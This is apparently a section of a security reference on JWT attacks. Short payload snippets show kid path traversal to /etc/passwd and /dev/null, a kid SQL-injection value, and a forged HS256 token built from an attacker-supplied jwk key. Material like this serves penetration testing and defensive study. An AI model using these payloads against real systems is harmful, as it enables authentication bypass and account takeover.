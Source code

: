 ## Advanced JWT Exploits

### JWT Header Parameter Injection

Injection of additional header parameters to manipulate validation.

```javascript
// Original header
{
  "alg": "HS256",
  "typ": "JWT"
}

// Injected header with kid (Key ID) parameter 
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../dev/null" // Path traversal attack on systems that use kid to locate key file
}
```

### JWT Kid (Key ID) Attacks

Many systems use the `kid` parameter to select the key for validation.

**Exploitation:**
```javascript
// SQL Injection via kid parameter
const header = {
  "alg": "HS256",
  "kid": "' UNION SELECT 'attacker_controlled_secret' -- "
};

// Path traversal via kid parameter
const header = {
  "alg": "HS256",
  "kid": "../../../etc/passwd"  // Server reads this file as the key
};
```

### JWT Signature Verification Bypass with JWK

```javascript
// Original header using jwk
{
  "alg": "HS256",
  "jwk": {
    "kty": "oct",
    "k": "AyM1SysPpbyDfgZld3umj1qzKObwVMkoqQ-EstJQLr_T-1qS0gZH75aKtMN3Yj0iPS4hcgUuTwjAzZr1Z9CAow"
  }
}

// Attacker provides their own key
{
  "alg": "HS256",
  "jwk": {
    "kty": "oct",
    "k": "GawgguFyGrWKav7AX4VKUg"  // Attacker-controlled key
  }
}
```
